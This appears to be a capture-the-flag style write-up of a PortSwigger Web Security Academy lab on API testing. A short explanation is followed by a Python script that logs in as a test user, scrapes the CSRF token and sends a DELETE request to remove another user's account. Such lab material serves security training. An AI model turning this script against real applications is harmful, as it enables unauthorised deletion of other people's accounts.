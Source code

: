 ```yaml
---
title: Exploiting an API endpoint using documentation
tags:
  - web-app
  - api
  - testing
---
```


<a href="https://portswigger.net/web-security/api-testing/lab-exploiting-api-endpoint-using-documentation/">
1. Exploiting an API endpoint using documentation</a>

We're asked to delete the user "carlos" using the API exposed by this web
application. We find the documentation for the API via /api and see that we can
delete a user by sending a DELETE request to /api/user/username. We must be
authenticated in order to make requests to the API.

We login as the user "wiener", and send a DELETE request to /api/user/carlos,
deleting carlos.

Solution:

```python
# usage:
# python3 1.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import http.client
import re
from argparse import ArgumentParser

import requests

http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        self.login("wiener", "peter")
        self.s.delete(f"{self.url}/api/user/carlos")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```
